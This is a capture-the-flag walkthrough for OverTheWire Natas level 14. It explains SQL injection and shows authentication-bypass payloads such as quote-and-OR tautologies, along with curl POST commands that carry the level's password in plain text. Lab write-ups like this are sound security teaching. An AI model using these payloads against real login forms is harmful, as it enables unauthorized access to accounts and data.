# 🕸️Natas Level 14 → Level 15

```
http://natas14.natas.labs.overthewire.org
```
Username: natas14  
Password: (natas14_password)



We examined the *source code* and discovered an **SQL query** that caught our attention.



### 💻 What’s Happening on the Front-End (Client Side) vs. Back-End (Server Side)?

When we enter the credentials `admin` and `pass123` and click Login, a **POST** request is sent.



Behind the scenes, the web browser sends a POST request to `http://natas14.natas.labs.overthewire.org/index.php` with the parameters `username=admin` and `password=pass123`.



The SQL server evaluates the query to determine whether it’s true or false, and then returns the corresponding result.



In this case, the query evaluates to *false* because either the username `admin` doesn’t exist or the password provided for that username is *incorrect*.



### What is SQL injection? 🧠🛠️

**SQL injection (SQLi)** is a security vulnerability that allows an attacker to alter the SQL queries an application sends to its database by supplying specially crafted input (e.g., through form fields, URL parameters, headers). That input can make the application execute unintended SQL commands, which can lead to data theft, data modification, authentication bypass, or full system compromise.

### Common types of SQL injection 🔍

- **In-band (classic)**
	- *Error-based* — attacker leverages database error messages to learn about the schema.
	- *Union-based* — attacker uses UNION to combine results from other tables and retrieve data.

- **Inferential (blind)**
	- *Boolean-based* — attacker sends queries that return different application responses for true/false conditions to infer data.
	- *Time-based* — attacker causes delays in the database (e.g., SLEEP) and deduces data from response timing.

- **Out-of-band**
	- Uses alternate channels (e.g., DNS or HTTP requests generated by the DB) to exfiltrate data when direct responses aren’t possible.

### Why it’s dangerous 🚨

- **Data exposure** — attackers can read sensitive information (personal data, credentials, secrets).
- **Data manipulation** — attackers can insert, update, or delete database records.
- **Authentication/authorization bypass** — attackers can log in as other users or escalate privileges.
- **System takeover** — with sufficient DB privileges, attackers may execute OS commands or pivot to other systems.
- **Persistent impact** — compromised data integrity, financial loss, legal/regulatory repercussions, and damage to reputation.

### 🔓💥 How SQL injection works

Type the following into the input field.
```
%" or "1"="1
%" or "1"="1
```


Here’s another example that works.
```
anything" or "222"="222
willwork" or "555"="555
```


This is what happens on the **backend**: the user exploits the **OR** operator to make the query return true.



### 🗃️ SQL Operators: AND, OR, and NOT


Once you click Submit, the flag should be revealed


If you prefer using the command line, the issue is that you need to add an escape character ``\`` before each ``"``, otherwise it will be mistaken for the closing quote.
```
curl -u natas14:z3UYcr4v4uBpeX8f7EZbMHlzK4UR2XtQ \
-X POST \
-F "username=%\" or \"1\"=\"1" \
-F "password=%\" or \"1\"=\"1" \
http://natas14.natas.labs.overthewire.org/index.php
```


Another method to send a **POST** request with the `curl` command.
```
curl -u natas14:z3UYcr4v4uBpeX8f7EZbMHlzK4UR2XtQ \
-d "username=%\" or \"1\"=\"1&password=%\" or \"1\"=\"1" \
http://natas14.natas.labs.overthewire.org/index.php
```


If everything is typed correctly, the flag should appear.



### 📚 Recommended Action for Deeper Understanding
💻 Learning More About SQL:  
<a href="https://www.w3schools.com/sql/" target="_blank">
    https://www.w3schools.com/sql/
</a>  
🔍 Doing More Research and Explore SQL Injection Further.  
🛠️ Challenge Yourself To Achieve It Using Just A Single Input In Different Ways.

Here are some example
```
admin" or "1"="1"; #
admin" or 1=1; #
admin" or 1=1 or"
```


Awesome work! You’ve got the flag needed for the next challenge.


